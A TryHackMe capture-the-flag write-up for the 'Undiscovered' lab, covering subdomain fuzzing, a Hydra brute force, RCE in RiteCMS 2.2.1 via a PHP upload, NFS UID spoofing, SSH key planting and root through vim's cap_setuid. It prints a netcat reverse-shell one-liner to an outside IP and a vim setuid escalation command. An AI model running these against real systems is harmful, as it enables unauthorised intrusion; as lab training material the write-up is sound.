 ```yaml
---
title: Undiscovered TryHackMe Writeup
tags: [writeup,norootsquash,tryhackme,ritecms,rce,linux]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/1.jpeg)

## Scanning
We run **nmap** on all ports, with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/2.png)

## Enumeration
We access the web service, find a website with what looks like a *"hint"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/3.png)

We launch the **wfuzz** tool to list possible subdomains enabled on *vhost*.

We see that there is *only one with different number of lines*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/4.png)

We access the new web resource and find **RiteCMS** version *2.2.1* deployed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/5.png)

We check again **wfuzz**, we see that it has identified another subdomain.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/6.png)

We list another subdomain with the same CMS, unlike the previous one, in this one we have visibility to the authentication form.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/7.png)

We brute force the authentication form with **Hydra**, we get the password in plain text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/8.png)

## Exploitation

We searched for exploits for this version of the CMS, we found several and some scripts that automates, but I preferred to do it "by hand".

[RiteCMS 2.2.1 - Authenticated Remote Code Execution
](https://www.exploit-db.com/exploits/48636)

We create a malicious file called *"m3.php"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/9.png)

Enter the credentials obtained and upload the file *m3.php*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/10.png)

We access the file and check that we can execute remote code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/11.png)

#### Reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We encode the payload and execute it from burp.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/12.png)

#### Remote access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/13.png)

Once inside, we launch the dirsearch tool and we see that we could mount and write in the folder of the user "*william*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/14.png)

We tried to mount it, but we do not have permission to view its contents.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/16.png)

But it is easy to take advantage of this vulnerability, just create a local user with the same *uid (3003)* and now you can access your folder and read the *user.txt flag*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/17.png)

We checked the folder and found two interesting files "*admin.sh*" and "*script*". I try to delete the file and it is possible to replace it, thinking that maybe they can be combined or that there is some crontab running as another user, I try to add a line to get a reverse shell (but without success :().

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/18.png)

We check with **strings** the content of the "*script*" binary and we see that it executes a "**cat**" inside the user's home folder.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/19.png)

Taking advantage of the fact that we have write permissions in the nfs, we insert our public key in the "*authorized_keys*" file of the user "*william*" and we access by **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/20.png)

We make some tests with the file and we see that we can indeed impersonate the user "*leonard*" to be able to read any file in his folder, so we try to read his private key and we see that we have been lucky.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/21.png)

We access by **SSH** and we see that we have access as "*leonard*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/22.png)

## Privilege Escalation
We read the file "*.viminfo*", we see a series of commands that already sounds us of the use of privilege escalation by means of **vim**, this already makes us suspect which is the way to the privilege escalation.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/23.png)

As we can't run sudo because we don't know the user's password, we see if we can access the **vim** binary through its capabilities, we see that we have "*cap_setuid+ep*", so we can abuse it and become root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/24.png)

#### Command execute
```bash
/usr/bin/vim.basic  -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
We run the command, become root and read the flag from root.txt

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/25.png)




